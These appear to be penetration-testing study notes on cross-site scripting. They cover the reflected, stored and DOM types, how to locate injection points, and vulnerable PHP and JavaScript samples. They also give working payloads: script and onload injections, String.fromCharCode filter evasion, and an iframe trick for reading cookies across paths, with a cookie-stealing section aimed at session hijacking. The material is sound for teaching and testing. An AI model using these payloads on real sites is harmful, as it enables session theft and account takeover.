[TOC]

### Basics of XSS


* Attacks triggered by user input are called input validation attacks.

* ```
  Malicious input can successfully subvert the functioning of an
  application because of either insufficient validation by the
  application or by the server before using the data.
  ```

* Most common application vulnerabilities are the result of poor coding design and ignorance on best  practices in secure coding methodologies

* Input Validation attacks include

  * XSS
  * SQL Injection
  * HTTP Header Tampering
  * and many more

* XSS 

  * one of oldest web application attacks  and is dated around 1996-1998
  * possible to control frames within a web page through injected code
  * Thus "crossing" the website boundaries

* XSS is an attack in which its ultimate purpose is to

  * Inject HTML [HTML Injection] 
  * or
  * run code [Javascript] in a user's Web Browser

* XSS => attack against the user of a vulnerable website

* Basic XSS Example with code

  * ```
    PHP Code
    
    <?php
    echo '<h4>Hello ' . $_GET['name'] . '</h4>';
    ?>
    
    The above (silly) code prints a welcome message to the user whose
    name is retrieved from the $_GET variable.
    ```

  * > **$_GET**  is a variable in PHP which stores the **<parameter,value>** pairs passed through the HTTP GET method

  * > GET is the method used when clicking links or directly typing the Website URL we want to browse in our browser location bar

  * The user input will be extracted from the querystring of the URL browsed (directly or by clicking on a link)

    * ```
      http://victim.site/welcome.php?name=MyName
      ```

    * > When the above is passed to the server, the $_GET variable will contain  a *name*  parameter with the value *MyName*

    * > **?name=MyName** is called *querystring*

    * > The following HTML code will be returned from the server to the
      > web browser:
      >
      > ```
      > <h4>Hello MyName</h4>
      > ```

    * > It's mean our input is part of the output web page source code

    * > Attacker can replace **MyName** with own payload to the same page as 
      >
      > 
      >
      > ```
      > http://victim.site/welcome.php?name=</h4><script>alert('This is an
      > XSS');</script>
      > ```
      >
      > 
      >
      > the above URL should be URL-encoded
      >
      >
      > Most browsers will do this [URL-Encoded] for us
      >
      > 

      

    * > The URL-encoded version is the following:
      >
      > ```
      > %3c%2fh4%3e%3cscript%3ealert(%e2%80%98This+is+an+XSS%e2%80%99)%3b%
      > 3c%2fscript%3e)
      > ```
      >
      > 
      >
      >
      > The server will return this code to us:
      >
      > ```
      > <h4>Hello </h4> <script>alert('This is an XSS');</script>
      > ```

  * This  payload is called XSS Attack. It injects some JavaScript code into the web page source code. The JavaScript will be executed in the  browser within the website context

  * Why this XSS Happened ?

    * because user input is given on output *without* any kind of **sanitization** (either on input or output)
    * Web Developer forgot to check the User Input for malicious patterns, and any hacker can exploit this vulnerability to perform a number of different attacks

  * So, XSS attacks are possible when the User Input is used somewhere on the web application output

    * this lets an attacker get control over the content rendered to the application users thus attacking the users themselves

  

---


### Anatomy of an XSS Exploitation


* XSS attacks can be used to achieve many goals

  * Cookie Stealing
  * Getting complete control over  a browser
  * Initiating an exploitation phase against browser plugins first and then the machine
  * Perform keylogging

* Ultimate goal of an attacker is 

  * **to run JavaScript to steal a session cookie of a user X who is authenticated (logged in) into Website Y**
  * So, 1st thing attacker tries to to find an XSS Vulnerability affecting the website
  * Make sure that the Host [subdomain] in which attacker is looking for matches the domain field of the cookie

* Example

  * > If the authenticated area of website **Y** is **auth.y.com**, 
    >
    > the domain in the cookie will most likely be set to **auth.y.com**, and attacker will have to find an XSS in that same Subdomain

  * > Once an XSS is located, attacker then build up  a payload, create a link and send it to the victim inviting the same to click on it
    >
    > [ This is called Reflected XSS]
    >
    > 
    >
    > ```
    > If this process seems too difficult what about just an image?
    > 
    > ">
    > ```

  * > img tag may  be inserted in a 3rd-party website [what about a forum,or a social network] that the victim may trust

  * > Attacker's final goal is to have his victim's browser visit the crafted link [carrying the payload], so he will use any trick at his disposal

* As, a penetration tester,  we need to exploit XSS found in web applications to take control or privileged accounts to escalate our privileges


---


### 3 Types of XSS


* Hackers can exploit XSS vulnerabilities in many different ways.

* classification for XSS attacks:

  * Reflected XSS
  * Stored XSS
  * DOM XSS

* ### Reflected XSS

  * It occurs when untrusted user data is sent to a web application, and it is **immediately** echoed back as the untrusted content

  * As usual, the browser receives the code from the web server response and renders it.

  * This type of vulnerability deals with **server-side code**

  * ```
    Simple example of vulnerable PHP Code	
    
    <?php $name = @$_GET['name']; ?>
    Welcome <?=$name?>
    ```

* ### Stored or Persistent XSS

  * similar to Reflected XSS, however, rather than the malicious input being directly reflected into the response, it is **stored within the web application.**
  * Once this occurs, it is then echoed somewhere else within the web application and might be available to all visitors.
  * Even these types of XSS flaws occur within server-side code => this is most useful for an attacker
  * In **Reflected XSS**, attacker need to trick a user
  * In **Stored XSS**, attacker just need to exploit the website, and then any visitor that visits will run the malicious code and be affected

* ### DOM XSS

  * is a form of XSS that exists only within **Client-Side Code** [typically JavaScript]

  * this vulnerability lives within the DOM environment

  * Thus,  within a page's client-side script itself and does not reach server-side code

  * Similar to **Reflected XSS**, but without interacting with the **server-side**

  * A web application  can echo the welcome message in a different way

    * ```
      sample code
      
      <h1 id='welcome'></h1>
      
      <script>
      	var w = "Welcome ";
      	var name = document.location.hash.substr(
      				document.location.hash.search(/#w!/i)+3,
      				document.location.hash.length
      				);
      		document.getElementById('welcome').innerHTML = w + name; <- important to note
      </script>
      ```

  * The key in exploiting this XSS flaw is that the client-side script code can access the browser's DOM thus all the information available in it.

  * Examples of this information are the

    * URL
    * History
    * cookies
    * local storage
    * and many others

  * DOM is a jungle, and finding this type of XSS is not the easiest of the tasks


* The hacker has many techniques to trick the user

  * tinyurl and similar services
  * iframes located in a 3rd-party malicious webpage
  * link  in a targeted email 
  * and so on

* Reflected XSS are used by attacker to **steal session IDs (stored in cookies** or **cookies themselves**

* More advanced Reflected XSS can be used for

  * phishing techniques
  * XSS Worms
  * to install malware on victim's machine through the exploitation of web browser vulnerabilities.

* run code in the website context

  * Only JavaScript or VBScript embedded in auth.y.com can read cookies belonging to auth.y.com

* 

* In Stored XSS,  injected code is saved by the application unsanitized and then rendered on either  the same or another web page in the same website

  * It target both  all the visitors of a website and is the only form of XSS actually (although indirectly) targeting the website itself (not just its visitors)

* Stored XSS is capable of defacing a web page, altering the original appearance

  * > **Note:** 
    >
    >
    > Reflected XSS would deface the appearance of the website only for the intended victim carrying the payload.

  * > Such an attack is very destructive and likely to occur in 
    >
    > 
    >
    > **community,**
    > **content driven,** 
    >
    > **custom applications like blogs,** 
    >
    > **commenting systems,** 
    >
    > **and social networks.**

  * Example

    * 

    * > In this scenario, **page.php** has a form with three **parameters**:
      > **Param1, Param2, and Param3.**
      >
      > 
      >
      > All of these user submitted parameters are saved in the database
      > for later use.
      >
      > 
      >
      > One of these parameters is not sanitized for illegal characters and,
      > as such, is prone to Persistent XSS.

    * > So, attacker's payload will be stored in the database
      >
      > 
      >
      > 
      >
      > The web application is designed so that **Param2**, submitted by the
      > hacker, is given on output on **page_out.php** (once again unsanitized).

    * > This scenario is very common and applies to a number of situations like :
      >
      > 
      >
      > either commenting scripts or personal community members profiles that accept an input

    * 


* ### DOM [Document Object Model]

  

  

  * DOM is the object built by the web browser upon parsing the web page content provided by the server

  * This object makes it easy to navigate through the different HTML tags
    and the hierarchy of these:

    * 

  * > Functions like **getElementByTagName**  are DOM Functions that let us navigate through the page elements through a hierarchical view
    >
    > 
    >
    > ( a node may have children as well as a father and may contain attributes and so on )

  * Use web browser tool -> Firebug  or Dom Inspector add-ons for FireFox

  * Reflected XSS and Stored XSS -> caused by coding mistakes on the server side

  * DOM XSS -> they allowed when JavaScript code uses the user supplied data as part of its logic

    * If not sanitization then injection is possible

  * DOM XSS can also be used to **either steal confidential data (session and cookies)** or **hijack the user account**

  * > JavaScript code can use the querystring provided to the webpage
    > as input to perform different operations accordingly.

  * > Another way to gather user input is to use the *prompt()* method.

  * Concentrate on input from the querystring because it is typically the easiest to exploit

  * > When the user input is part of the querystring, and this is given on output through either **the function *document.write***  or its variants,
    >
    > it is possible to inject arbitrary content into the web page

  * > NOTE:
    >
    >
    > DOM XSS  attack does not require any interaction with the server.

  * > Example code
    >
    > 
    >
    > The following code can be inserted in the *<HEAD>* of a local html file (**test.html** for example):
    >
    > ```
    > <script>
    > var pos = document.URL.indexOf("name=")+5;
    > document.write(document.URL.substring(pos,document.URL.length));
    > </script>
    > ```
    >
    > 
    >
    >
    > Request this file in the following way:
    >
    > ```
    > test.html?name=Armando
    > ```
    >
    > 
    >
    > This will print out on screen the user input: Armando.
    >
    > 
    >
    > > DOM-based XSS can even be persistent.
    >
    > 
    >
    > If the malicious payload is saved by the web application within a
    > cookie, the victim user providing the server with the poisoned
    > cookie will run the malicious payload every time a new request is
    > sent to test.html.

    

    

    
---

​    

### Finding XSS

> In a black box testing endeavor, finding Reflected XSS is an easy task.


* Attacker do not have access to the application source code,  so, need to figure out 

  * what data the application gives on output upon user-supplied data.
  * If there is a correlation between both output-input and the user-supplied data  is part of the output, then we have found a potential mount point for an XSS Attack
  * Once spotted these output **<=>** input correlations, we will try to inject either the HTML or JavaScript code into the input
  * Input mean one of the following: 
    * **GET/POST** variables
    * **COOKIE** variables
    * **HTTP Headers**
  * So, we should be capable of understanding what channel(s) the application uses to retrieve data from the user
    * The channel used by the web application may change the level of exploitability; input from the GET method is the easiest to exploit
    * By including a payload in a crafted link, if the victim happens to  click on this link, they are executing an example of XSS 
      (carried in the GET method of the HTTP request).
  * **POST**  verb  is used for form submission;therefore , exploiting  it requires both some trick and a different exploitation approach
  * Exploring **GET Method**
    * browse the web application and attempt to inject HTML into the input parameter of the URL
    * this is time-consuming task, and we need to try this for every parameter that found to be part of the output of the web application

* What should we inject to test the application ?

  * XSS is the injection of HTML and/or JavaScript

  * Use simple payload like **<plaintext>**

    * This HTML tag instructs the browser to treat the remaining web page source as plain text, thus breaking the appearance of the site

    * By this we can get immediately result successful without inspecting the source;

      * because we will see a broken web page layout showing the web page source as part of the website appearance

    * Every tag coming next to the injection point will not be rendered  by the web browser, it will instead be treated as plain text.

    * > NOTE:
      >
      > 
      >
      > Injecting **<plaintext>** tag is not indicative of the possibility of injecting scripts.

  * If developer put input validation in order to prevent script injection, then second step would  be to check the possibility of injecting scripts using the **<script>** tag or using one of the DOM events

  * > Note
    >
    >
    > Sometime input validation routines may allow the innocuous plaintext tag, but may deny tags like **IFRAME** or **IMG**

* ### Finding XSS in PHP Source Code

  * Look for all the points where the application outputs data (totally or partially) supplied by the user and tracking it back to the source where it is retrieved for the first time

  * If a sanitization or integer conversion is made, then we should be fine (as long as the sanitization is properly implemented).

  * Also take into consideration data that comes from the database

    * This data may not have been sanitized and as such can result in a Persistent XSS

  * Use tool like -  **PHP XREF for PHP language projects** [to save time]

    * Will help with the tracking of variables life from declaration to their death on output.

  * Look for parameters, as example for **page.php**

    * name = [STRING]

    * tel = [NUMERIC]

    * ```
      Looking at the code of page.php we will find out:
      
      <?php
      $name=$_GET[‘name’];
      $telephone_n=$_GET[‘tel’];
      ?>
      ```

    * So, our map will be:

      * name => name
        * input parameter name of the querystring 
      * tel => telephone_n
        * variable being used to store it in the code


---


### XSS Exploitation


* ```
  Real world example code for XSS Exploitation
  
  
  <html>
  <head><title>Test XSS</title></head>
  <body>
  	">
  </body>
  </html>
  ```

* > There is a **name** parameter passed to the application in the URL is printed on output without being sanitized

* ```
  http://victim.site/index.php?name=<script>alert('XSS Example')</script>
  ```

* > If we call above URL, then web application render it as :
  >
  > 
  >
  > ```
  > <html>
  > <head><title>Test XSS</title></head>
  > <body>
  > alert('XSS Example')</script>">
  > </body>
  > </html>
  > ```

* > By retrieving the web page source code,  we can see that we have successfully injected JavaScript code;
  >
  > however, this will **not** be **executed** because it is **inserted** in the **alt** parameter of the **IMG** tag

* > So, we need to escape out **alt tag** by using :
  >
  > 
  >
  > > http://victim.site/index.php?name=**">**<script>alert('XSS Example')</script>

* > But, this will break the HTML Tag structure and will show extra suspicious characters in the web appearance
  >
  >
  > 

* > In the web page source

  

  > ```
  > <html>
  > <head><title>Test XSS</title></head>
  > <body>
  > <script>alert('XSS
  > Example')</script>">
  > </body>
  > </html>
  > ```

* > Important to note in above is **">**  after closing script **</script>**  and in **alt** tag there is nothing infect closed it

  

* > To avoid the presence of suspicious characters in the visible part of
  > the web page, we can use the following payload:
  >
  > ```
  > "><body onload="alert('XSS Example')
  > ```
  >
  > 
  >
  > Note: we are leaving the double quote open because the remaining characters: 
  >
  > **">** will take care of closing our tag.

* > 
  >
  > 
  >
  >
  > The BODY tag turns out to be very useful for XSS payloads.
  >
  >
  > This is good way to inject code into the web page without triggering a user's suspicion
  >
  >
  > Let's make this payload more cooler

* > ```
  > " onload="javascript:alert('XSS Example')
  > ```
  >
  > 
  >
  > Like =>
  >
  > ```
  > http://victim.site/index.php?name=" onload="javascript:alert('XSS Example')
  > ```

* > 
  >
  > 
  >
  > DOM Events are often used in XSS exploitation because they allow us to avoid using suspicious characters like **<** and **>**
  >
  >
  > We don't need even to use HTML Tags [like the SCRIPT and BODY tags] here, so, we are able to bypass basic input validations routine that may rely on this type check .[ silly check]

* > If filters and input validation routines are in place, then we will want to ensure to submit as few suspicious characters as possible.

* > In this case, the **javascript:**  in the **onload**  event of our payload can be omitted to become:
  >
  > ```
  > http://victim.site/index.php?name=" onload="alert('XSS Example')
  > ```

* > To make our script injection hard to detect,  we can avoid single quotes with the help of JavaScript function => **String.fromCharCode**
  >
  > ```
  > " onload="alert(String.fromCharCode(88,83,83))
  > ```

* ### XSS and Browsers

  * XSS is the injection of scripts and HTML in web page source code
  * The way we do this injection is sometimes tricky and involves quite a bit of knowledge of the technologies involved.
  * Payload working under Firefox may not work for Internet Explorer or Safari and Vice-Versa
  *  Browsers are software that interprets the HTML received by the web server according to their internal rules
  * **ONLOAD** event and **BODY** tag work fine inf FIREFOX, but they are stopped by Internet Explorer and WebKit-based browsers like chrome and safari
    * because those browsers have and integrated XSS Filter for Reflected XSS
  * Even if these filters can block simple common XSS vectors, they cannot find any and every XSS payloads, because it really depend on Injection Point

* ### XSS Attacks

  * common XSS Attacks beside alerting

    * • Cookie stealing
      • Defacement
      • Phishing / Malware
      • XSS Worms

  * ### Cookie Stealing Through XSS

    * cookies carry on parameters from an HTTP server to its client and vice-versa

    * Clients send cookie content to the server in their requests according to the **domain,path and expiration** set in the cookie

    * A browser uses the **domain,path and expiration** attributes to choose whether it needs to either submit or not submit a cookie in a request for a server

    * The SOP => **prevents cookie stealing**

      * however, we can violate it by using XSS attack

    * While a user logs in to the application, the application will give **session id**  to the user's browser and saved in cookie jar and then user can browse the application with authenticated session id

    * If we steal this SessionID and install the cookie with the sessionID on our browser, we can able to access victim's account

      * 
      * Here **Authenticated**  mean  , website will understand that  whether the user is authenticated (logged in) or not
      * 2 Different Session IDs there and one is Authenticated and other is not
      * We need to forged this session ID using XSS Attack

    * Cookies can only be read only through JavaScript embedded in target's website [and only if httpOnly is not set for that cookie]

    * Same-Origin Policy [SOP] forces us to Cross the security boundaries of website through an XSS that we have to find within target's website

    * Suppose target's website is **alice.xxx**, then the first part of the attack is indeed the research of an XSS in **alice.xxx**

      * cookie has a domain value of **.alice.xxx**  and as such we can *read it from other subdomains as well*
      * When having to steal a cookie through XSS, it is very important to understand the surface of our research; we will have to look at both the **domain** and the **path** value of the *cookie* issued by target [alice.xxx] in order to understand where we will be searching
      * The wider the surface, the better the chances of finding an XSS.
      * The **Cookie Path** is meant to improve network performance and is not intended to serve as a security feature

    * 

    * 

    * The other parameter to consider is **path.**

    * When a cookie is issued with the parameter **path=/** it is valid for all the directories of the domains it applies

    * Path instead can limit the validity of the cookie to a specific subdirectory shrinking the possibilities of finding an XSS

    * **path=/members/**

      * XSS will be limited to "members" directory and its subdirectory: "**/members/foo  or  /members/foo/bar or  (/members/*)**"

    * **path=/members**

      * Cookie would be valid for the directories -> **/members-fan, /membersarea, /memberspanel and so on**
      * so, we need to spot the difference : *without the trailing slash the  wildcard* becomes /members*

    * Path Limitation

      * Web browser enforces the same-origin policy on hostname-port.
      * Cookie Path has nothing to do with security
      * We still have access to the DOM

    * So, it is possible for an application in **path2**  to read *cookies* in **path1** using the following trick:

      * ```
        Put this in an html file within /path2/
        
        
        <script>
        function cookiepath(path) {
        	for (var i = 0; i < window.frames.length; i++) {
        		frameURL = window.frames[i].location.toString();
        		if (frameURL.indexOf(path) > -1)
        			alert(window.frames[i].document.cookie);
        	}
        }
        </script>
        <iframe onload="cookiepath('/path1/')" style="display:none;" src="/path1/index.php"></iframe>
        ```

      * a script in a page under /path1/ is capable of reading the cookie set for /path2/ through an iframe

        * Means that if we need an XSSin /path2/ we may still look for it in other paths provided that we are able to inject the above code exploit

    * 2 Firefox Extensions  may help a lot in testing how the cookies mechanism works:

      * **Live HTTP Header** -> this helps understanding WHEN the cookie is being sent
      * **Cookie Editor** -> that shows the installed cookies and the <domain,path,expiration> parameters

    * But all this above things works **ONLY** when **HTTPONLY** flag is **NOT** set in the cookie

      * **HTTPONLY** flag prevents cookies from being read by JavaScript

    * Also, pay attention to **secure**  cookies

      * these cookies are sent only if https[SSL] is used in the request

    * After know the subdomains in which we will be able to read the cookie, let's suppose we have found one on the following page

      * http://www.alice.xxx/members/search.php
      * Search page good places to look for XSS
      * 
      * JavaScript stores the cookie content in the *document.cookie* object so we will use it in our exploit code. 
        * The exploit is as simple as:
        * 
        * Let's analyze the payload
        * 
        * 
        * 
        * 
        * 